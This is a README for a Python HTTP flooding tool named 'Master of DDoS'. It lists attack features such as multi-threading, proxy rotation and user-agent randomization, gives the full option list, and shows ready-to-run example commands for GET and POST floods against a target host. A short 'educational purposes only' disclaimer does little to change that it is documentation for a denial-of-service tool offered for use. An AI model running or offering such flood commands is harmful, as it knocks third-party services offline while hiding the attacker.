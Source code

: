  Master of DDoS
==============

A simple and customizable HTTP flooder written in Python 3.

Features
--------

* Multi-threading
* Proxy support
* UserAgent randomization
* Customizable request method
* Customizable request amount

Requirements
------------

* Python 3.x
* `colorama`
* `fake_useragent`
* `socks`

Usage
-----

```
python3 mod.py -h
```

```
optional arguments:
  -h, --help            show this help message and exit
  --host                target host
  -p, --port            target port [default 80]
  -t, --thread          thread amount [default 100]
  -a, --amount          request amount [default inf]
  -m, --method          request method [default GET]
  -pl, --proxy-list      proxy list file
  -pt, --proxy-type      proxy type [default HTTP]
```

Examples
--------

### Simple HTTP GET Flood

```
python3 mod.py --host example.com -t 100 -a 1000000
```

### HTTP POST Flood with Proxy

```
python3 mod.py --host example.com -t 100 -a 1000000 -m POST -pl http_proxy_list.txt -pt HTTP
```

Disclaimer
----------

This tool is intended for educational purposes only. Using it for illegal activities is strictly prohibited. The author is not responsible for any misuse of this tool.

